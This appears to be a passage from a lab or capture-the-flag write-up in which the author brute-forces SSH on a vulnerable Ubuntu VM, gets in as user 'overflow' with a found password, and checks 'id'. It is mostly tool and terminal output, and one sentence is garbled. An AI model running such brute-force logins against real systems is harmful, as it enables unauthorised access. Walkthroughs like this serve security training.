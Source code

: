 ```bash
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 0
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 0
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 1
[ERROR] could not connect to target port 22: Connection refused
...
```
I had to ask someone if SSH plays nice you find the valid login creds to be `overflow:Pass.txt`. This gets me a shell after some more failed connection attempts.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh overflow@192.168.34.152                                                                                                                                                                                                                             255 ⨯
ssh: connect to host 192.168.34.152 port 22: Connection refused
                                                                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh overflow@192.168.34.152                                                                                                                                                                                                                             255 ⨯
ssh: connect to host 192.168.34.152 port 22: Connection refused
                                                                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh overflow@192.168.34.152                                                                                                                                                                                                                             255 ⨯
ssh: connect to host 192.168.34.152 port 22: Connection refused
                                                                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh overflow@192.168.34.152                                                                                                                                                                                                                             255 ⨯
overflow@192.168.34.152's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Aug 13 01:14:09 2014 from 10.0.0.12
Could not chdir to home directory /home/overflow: No such file or directory
$ id
uid=1002(overflow) gid=1002(overflow) groups=1002(overflow)
```
